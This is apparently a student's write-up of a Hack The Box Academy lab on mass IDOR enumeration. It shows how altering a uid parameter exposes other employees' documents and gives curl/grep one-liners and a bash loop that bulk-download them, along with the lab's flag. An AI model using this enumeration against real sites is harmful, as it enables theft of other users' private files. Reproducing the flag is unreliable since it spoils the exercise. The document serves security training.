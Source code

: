 # Mass IDOR Enumeration

### Insecure Parameters

web application that hosts employee records:

<figure><img src="https://academy.hackthebox.com/storage/modules/134/web_attacks_idor_employee_manager.jpg" alt=""><figcaption><p>Employee Manager</p></figcaption></figure>

<figure><img src="https://academy.hackthebox.com/storage/modules/134/web_attacks_idor_documents.jpg" alt=""><figcaption><p>http://SERVER_IP:PORT/documents.php?uid=1</p></figcaption></figure>

we are logged in as employee who as `uid=1`, In the web app we see the documents uploaded by our user. the links of the files are.

```html
/documents/Invoice_1_09_2021.pdf
/documents/Report_1_10_2021.pdf
```

If we change the uid value to `uid=2`, we will see that the links of the documents changed to&#x20;

```html
/documents/Invoice_2_08_2020.pdf
/documents/Report_2_12_2020.pdf
```

This is a common mistake found in web applications suffering from IDOR vulnerabilities, as they place the parameter that controls which user documents to show under our control while having no access control system on the back-end.

### Mass Enumeration

Although we could enumerate manually and get the documents, it is not efficient. It's better to automate the task using Burp Intruder or ZAP Fuzzer to retrive the files.

To do so, we check the HTML source code of the files.

```html
<li class='pure-tree_link'><a href='/documents/Invoice_3_06_2020.pdf' target='_blank'>Invoice</a></li>
<li class='pure-tree_link'><a href='/documents/Report_3_01_2020.pdf' target='_blank'>Report</a></li>
```

**pick any unique word to be able to `grep` the link of the file**. (we know each link starts with \
`<li class='pure-tree_link'>`

```shell-session
curl -s "http://SERVER_IP:PORT/documents.php?uid=1" | grep "<li class='pure-tree_link'>"
```

**Using Regex pattern to grep**

```shell-session
curl -s "http://SERVER_IP:PORT/documents.php?uid=3" | grep -oP "\/documents.*?.pdf"
```

> match strings between /documents and .pdf

simple bash script to get the documents with different uid

```bash
#!/bin/bash

url="http://SERVER_IP:PORT"

for i in {1..10}; do
        for link in $(curl -s "$url/documents.php?uid=$i" | grep -oP "\/documents.*?.pdf"); do
                wget -q $url/$link
        done
done
```

### Assessment

get a list of documents of the first 20 user uid's in /documents.php, one of which should have a '.txt' file with the flag.

<figure><img src="../../../.gitbook/assets/image (95) (1).png" alt=""><figcaption><p>Send request to intruder</p></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (98) (1).png" alt=""><figcaption><p>payload 1-20</p></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (79).png" alt=""><figcaption><p>request number 15 has very different size of response.</p></figcaption></figure>

We found the flag where `uid=15`

<figure><img src="../../../.gitbook/assets/image (97) (1) (1).png" alt=""><figcaption><p>HTB{4ll_f1l35_4r3_m1n3}</p></figcaption></figure>

